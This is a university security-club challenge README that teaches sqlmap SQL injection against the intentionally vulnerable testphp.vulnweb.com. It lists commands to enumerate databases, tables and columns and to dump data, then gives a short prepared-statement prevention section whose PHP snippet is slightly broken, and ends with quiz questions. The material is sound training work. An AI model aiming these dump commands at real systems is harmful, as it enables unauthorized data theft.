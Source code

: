 ## SQLi-sqlmap-challenge
*[Author: Kitsios Marios]
*Date: 29/11/2021
*Topic: SQLi tool: sqlmap
*Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

2. Connect to http://testphp.vulnweb.com/

3. Find a possible vulnerable location in the website
   example: http://testphp.vulnweb.com/something.php?something=something
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ==
   
4. Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   There are two ways to do that:
   1. sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
  
   2. Intercept the request with BurpSuite (or whatever you prefer)
	    Save the request in a .txt file (because sqlmap works best with a .txt file)
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url

5.List all the tables of a database 
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables

6. List information about the columns of a table 
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names

7. Retrieve column data from table
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
  
Prevent SQL Injection

  SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. https://stackoverflow.com/
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
  
In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

Questions:
  1.Which DBMS is being used and what version is it
  2.What are the names of the two databases 
  3.How many tables are there in the database acuart
  4.What kind of data type is being stored in the “adsec” column of the table “artists”
  5.What is the 1st value of “aname” column of the table “artists” and the database “acuart”
